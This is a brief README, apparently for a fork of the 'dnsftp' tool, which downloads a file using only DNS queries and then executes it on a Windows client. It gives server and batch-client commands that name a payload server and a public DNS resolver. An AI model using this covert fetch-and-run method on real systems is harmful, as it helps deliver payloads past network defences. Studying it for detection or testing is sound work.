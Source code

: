 ## Purpose

Use only DNS queries to download a file, and then execute it.

## Usage

On the server hosting the file (tested with python2):

**sudo python server.py -f /path/to/file**

On the Windows client with batch script:

**client\client_batch\runme.bat _payloadserverhostname_  _fileparts_  _publicdnsserver_**

**Example: client\client_batch\runme.bat payloadserver.yourdomain.com  42  8.8.8.8**

If just testing internally, you can use the following example:

**client\client_batch\runme.bat _payloadserverhostname_  _fileparts_  _payloadserverIPaddr_**

Original author:
Stephen Breen - https://github.com/breenmachine/dnsftp

Forked and modified by:
Daniel Vinakovsky
